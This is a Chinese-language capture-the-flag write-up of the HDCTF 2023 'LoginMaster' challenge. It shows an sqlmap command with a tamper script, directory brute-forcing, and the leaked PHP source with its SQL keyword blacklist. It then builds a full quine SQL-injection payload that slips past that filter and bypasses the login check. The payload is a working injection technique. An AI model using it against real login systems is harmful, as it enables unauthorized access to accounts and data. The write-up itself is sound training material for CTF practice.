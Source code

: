 ## 基本信息

- 题目名称： [HDCTF 2023]LoginMaster
- 题目链接： https://www.nssctf.cn/problem/3782
- 考点清单： quine注入, unique注入, SQL注入, WAF绕过
- 工具清单： Yakit, sqlmap, mysql, adminer
- payloads： 敏感文件爆破, robots.txt, quine

## 一、看到什么

### 第一轮

**题目关键信息列表**：

1. `登录表单`: 最基本的登录表单，包括用户名和密码输入框。
2. `注册表单`: 纯摆设，无用。
3. `HTTP 响应`: nginx/1.14.2, PHP/5.6.40，无其他线索信息。
4. `页面源代码`: 审计无果，没有任何提示线索信息。

## 二、想到什么解题思路

### 第一轮

1. `登录表单`: SQL 注入, 万能口令
2. `无提示线索`: robots.txt, 敏感文件爆破

## 三、尝试过程和结果记录

### 第一轮

1. SQL 注入，万能口令尝试无果。

```bash
# `-p` 参数 用于指定想要重点测试的参数，提高检测效率以及针对性
# `--proxy` 参数，用 Yakit 代理记录下来所有攻击负载，方便编程实现作为代码模版
# `--tamper` 该参数用于指定 `sqlmap` 的篡改脚本，这些脚本的作用是对发送给目标网站的 payload（攻击载荷、测试数据等）进行一定的变形或者处理，以绕过目标网站可能存在的一些简单的防护机制，比如对特定字符过滤、对常见 SQL 注入语句格式的检测等情况，增加 SQL 注入成功的几率。
sqlmap -u http://node4.anna.nssctf.cn:28077/index.php --data="username=admin&password=testpassword" -p password --proxy socks5://127.0.0.1:8083  --tamper "space2comment.py"
```

2. 目录和敏感文件爆破：使用 Yakit + 内置插件（综合目录扫描与爆破） + 自定义字典文件。

![](images/2023-loginmaster-yakit-dirscan.png)

如上图所示，字典越大，扫描结果越多，不可能完全通过人工筛选来找到敏感路径。浏览观察之后可以发现以下重要规律：

- 状态码筛选：404 状态码的基本都是 .php 请求，其他请求即使路径不存在也都是 200 。
- 响应长度筛选：集中在 7.1K 和 169B 两种长度。

由于当前版本 Yakit 不支持按字段排序，所以使用范围筛选功能来进行 `大海捞针` 操作：选择 `响应长度` 一栏，设置长度范围为 170B ~ 7000B 。筛选只剩 2 个请求，其中 1 个响应状态码 400 ，另一个是 200 。

![](images/2023-loginmaster-yakit-dirscan-filter.png)

进一步查看响应消息后，确定 `/robots.txt` 是一个重要的线索。

`robots.txt` 内容如下，注释内容为我分析后添加：

```php
function checkSql($s) 
{
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){ // SQL 注入黑名单关键词，需要绕过
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) { // 要求输入的密码与数据库中实际取出的密码完全相等，这就意味着不能使用常规的 SQL 注入造成真值逻辑漏洞利用方式
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

由于 NSSCTF 上的题目在标签里有提到 `quine注入` ，因此直接搜索 `quine注入` 关键词，找到了 [从三道赛题再谈Quine trick 2021-10-14 @安全客](https://www.anquanke.com/post/id/253570) 。其中最关键的一句解释摘录如下：

> 要求的是执行$sql的结果与$password相同，那么除了正常逻辑的密码相同会产生相等，**如果我们的输入与最后的结果相等** ，那么一样可以绕过验证。这种技术就是Quine 。

使用本地的 `SQL Debug` 测试环境，进行 SQL 语句的构造和测试。

```sql
-- 假设服务端的口令校验逻辑 SQL 核心代码如下：
-- 以下代码是正常用户登录口令错误的 SQL 语句
select password from users where user='admin' and password='1';
-- 以下代码是正常用户成功登录的 SQL 语句
select password from users where user='admin' and password='5f4dcc3b5aa765d61d8327deb882cf99';

-- 根据上述 robots.txt 提供的线索，尝试利用 Union 查询构造 SQL 注入
-- 注意空格被过滤了，可以使用/**/来绕过
select password from users where user='admin' and password='Y'union/**/select/**/<要构造字符串>';

-- 此处要构造的字符串就是 Y'union/**/select/**/

-- Quine 的基本形式为： REPLACE('str',编码的间隔符,'str') 
-- Quine 的升级版形式为： REPLACE(REPLACE('str',CHAR(34),CHAR(39)),编码的间隔符,'str')
-- 此处要代入的 'str' 为 Y'union/**/select/**/

-- REPLACE(REPLACE("Y'union/**/select/**/",CHAR(34),CHAR(39)),CHAR(46),"Y'union/**/select/**/")
-- 执行结果为
-- Y'union/**/select/**/

-- Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),"."),char(34),char(39)),char(46),'Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),"."))


select password from users where user='admin' and password='Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),".")#')#';
```

![](images/2023-loginmaster-sqldebug.png)

将上述构造好的 SQL 语句填入登录表单的 `password` 字段，`username=admin`，即可绕过登录验证，获取到 flag。

## 四、总结与反思

- **解题收获**：在计算机领域，`Quine` 是一种特殊的计算机程序，它以自身的源代码作为输入，并在运行时输出其自身的源代码副本，且不接受任何外部输入。
- **不足之处**：`Quine` 片段的构造比较烧脑，需要对 SQL 语句的构造和理解有一定的基础，需要在 `SQL Debug 环境` 下进行多次测试和验证。
- **改进措施**：多刷几道 `Quine SQL 注入` 相关题目，检验掌握程度。

## 五、本地工具环境配置

### 本地 `SQL Debug 环境配置`

```bash

- mysql debug 环境配置，用于 `SQL 注入` 题目的本地测试

```bash
# 配置 mysql debug 环境
git clone https://github.com/c4pr1c3/ctf-games

cd ctf-games/dvwa && docker-compose up -d

cat README.md
# 提供内置 [adminer.php](https://www.adminer.org/) ，方便查看和管理 dvwa 的数据库。
# 
# 访问 http://<target_ip>:8086/adminer.php ，用户名 app ，密码 vulnerables
```

### Yakit 爆破工具使用

插件仓库的 `综合目录扫描与爆破` 可以在 `检查项目` 里选择 `禁用内置字典` ，然后在 `额外参数` 里通过 `Yakit Payload` 设置 `Yakit Payload` 里定义的字典名称。


### Yakit 字典配置

日常做题过程中，多积累各种 **规模适中** 和 **用途专一** 的字典，方便在爆破过程中使用。

![](images/2023-loginmaster-yakit-payload.png)



